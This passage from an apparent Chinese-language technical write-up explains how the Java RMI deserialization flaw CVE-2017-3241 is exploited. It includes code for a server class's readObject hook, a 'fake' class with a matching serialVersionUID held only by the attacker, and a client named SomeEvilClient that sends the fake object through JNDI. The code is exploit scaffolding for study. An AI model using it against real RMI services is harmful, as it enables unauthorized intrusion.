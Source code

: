 ```java
    /*
     * 所找PublicKnown必须有实现这个函数，否则无法利用CVE-2017-3241漏洞
     */
    private void readObject ( ObjectInputStream ois )
        throws IOException, ClassNotFoundException
    {
        System.out.println( "PublicKnown.readObject()" );
        ois.defaultReadObject();
    }
}
```

看过不少讲这种传统Java反序列化的文章会说"覆写readObject"，或者
"重载readObject"。这得喷一段，PublicKnown.readObject()与
ObjectInputStream.readObject()函数原型不一样，二者之间不存在继承重载或实现
接口之类的关系，只不过函数名一样罢了。不存在所谓覆写重载，这只是个约定好的
magic机制，没见PublicKnown.readObject()是private的吗。有人纠正过这事，架不
住一代代SB前赴后继抄来抄去啊。

9) fake版PublicKnown.java

```java
/*
 * javac -encoding GBK -g PublicKnown.java
 */

/*
 * 这是fake版PublicKnown，不会出现在服务端，只在恶意客户端存在
 */
public class PublicKnown extends Message
{
    /*
     * fake版与normal版该值必须相同
     */
    private static final long   serialVersionUID    = 0x5120131473637a02L;
}
```

10) SomeEvilClient.java

```java
/*
 * javac -encoding GBK -g SomeEvilClient.java
 */
import javax.naming.*;

public class SomeEvilClient
{
    public static void main ( String[] argv ) throws Exception
    {
        String          name    = argv[0];
        String          sth     = argv[1];
        /*
         * 保持一般性，使用JNDI，用JVM参数传递env
         */
        Context         ctx     = new InitialContext();
        SomeInterface   some    = ( SomeInterface )ctx.lookup( name );
        /*
         * 使用fake版PublicKnown
         */
        PublicKnown     p       = new PublicKnown();
        p.setMsg( sth );
        String          resp    = some.Echo( p );
        System.out.println( resp );
    }
}
```